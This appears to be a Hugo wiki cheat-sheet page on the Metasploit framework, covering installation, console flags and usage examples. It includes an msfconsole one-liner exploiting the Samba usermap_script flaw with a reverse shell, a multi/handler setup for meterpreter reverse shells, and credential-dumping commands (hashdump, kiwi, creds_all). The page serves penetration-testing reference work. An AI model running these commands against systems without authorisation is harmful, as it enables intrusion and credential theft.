 ```yaml
---
### The title for the content.
title : "Metasploit"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "metasploit"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "The world’s most used penetration testing framework"
### The datetime assigned to this page.
date : 2020-03-10T16:33:38+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "metasploit"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
### a map of Front Matter keys whose values are passed down to the page’s descendants unless overwritten by self or a closer ancestor’s cascade. 
cascade:
    tags: ['Metasploit']
---
```


## Metasploit

### Install

Easiest way is to use Kali/Parrot and install from repo

```bash
apt install metasploit-framework
```

otherwise download from 

```bash
https://github.com/rapid7/metasploit-framework/releases
```

### Usage

```bash
msfconsole [options]
```

### Flags

```bash
Common options:
    -E, --environment ENVIRONMENT    Set Rails environment, defaults to RAIL_ENV environment variable or 'production'

Database options:
    -M, --migration-path DIRECTORY   Specify a directory containing additional DB migrations
    -n, --no-database                Disable database support
    -y, --yaml PATH                  Specify a YAML file containing database settings

Framework options:
    -c FILE                          Load the specified configuration file
    -v, -V, --version                Show version

Module options:
        --defer-module-loads         Defer module loading unless explicitly asked.
    -m, --module-path DIRECTORY      Load an additional module path

Console options:
    -a, --ask                        Ask before exiting Metasploit or accept 'exit -y'
    -H, --history-file FILE          Save command history to the specified file
    -L, --real-readline              Use the system Readline library instead of RbReadline
    -o, --output FILE                Output to the specified file
    -p, --plugin PLUGIN              Load a plugin on startup
    -q, --quiet                      Do not print the banner on startup
    -r, --resource FILE              Execute the specified resource file (- for stdin)
    -x, --execute-command COMMAND    Execute the specified console commands (use ; for multiples)
    -h, --help                       Show this message
```

### Examples

#### init database

```bash
msfdb init
```

#### create new workspace

```bash
workspace -a [name]
```

#### switch to workspace

```bash
workspace [name]
```

#### run commands without interactive shell

```bash
msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"
```

#### Multi-handler for reverse shell

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <IP>
set lport <PORT>
set ExitOnSession false
exploit -j
```

The -j option is to keep all the connected session in the background.  

##### netcat/bash reverse

```bash
set PAYLOAD linux/x86/shell/reverse_tcp
```

##### run in the background

```bash
run -j
```

#### Meterpreter

`getsystem`

`hashdump`

`load kiwi`

`creds_all`

### Also see

* [Github Project](https://github.com/rapid7/metasploit-framework)
* [metasploit-unleashed](https://www.offensive-security.com/metasploit-unleashed/)
